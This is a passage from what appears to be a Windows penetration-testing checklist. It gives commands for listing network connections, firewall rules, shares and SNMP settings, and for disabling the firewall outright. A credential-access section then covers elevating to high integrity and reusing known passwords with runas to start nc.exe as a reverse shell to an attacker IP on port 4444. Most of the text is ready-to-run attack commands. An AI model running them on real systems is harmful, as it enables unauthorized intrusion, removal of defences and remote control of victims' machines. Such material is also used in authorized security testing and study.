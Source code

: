 * [ ] List current connections

```
 netstat -ano
```

* [ ] List current connections correlated to running service (requires elevated privs)

```
 netstat -bona
```

* [ ] List firewall state and config

```
 netsh advfirewall firewall dump
 netsh firewall show state
 netsh firewall show config
```

* [ ] List firewall's blocked ports

```
 $f=New-object -comObject HNetCfg.FwPolicy2;$f.rules |  where {$_.action -eq "0"} | select name,applicationname,localports
```

* [ ] Disable firewall

```
 netsh advfirewall set allprofiles state off
 netsh firewall set opmode disable
```

* [ ] List network shares

```
 net share
 powershell Find-DomainShare -ComputerDomain domain.local
```

* [ ] SNMP config

```
 reg query HKLM\\SYSTEM\\CurrentControlSet\\Services\\SNMP /s
 Get-ChildItem -path HKLM:\\SYSTEM\\CurrentControlSet\\Services\\SNMP -Recurse
```

**Credential Access**

* [ ] Go from **medium mandatory level** to **high mandatory level**

```
 # using powershell
 powershell.exe Start-Process cmd.exe -Verb runAs
```

* [ ] **TRY KNOWN PASSWORDS!**

```
 # check also with runas
 C:\Windows\System32\runas.exe /env /noprofile /user:<username> <password> "c:\users\Public\nc.exe -nc <attacker-ip> 4444 -e cmd.exe"
```
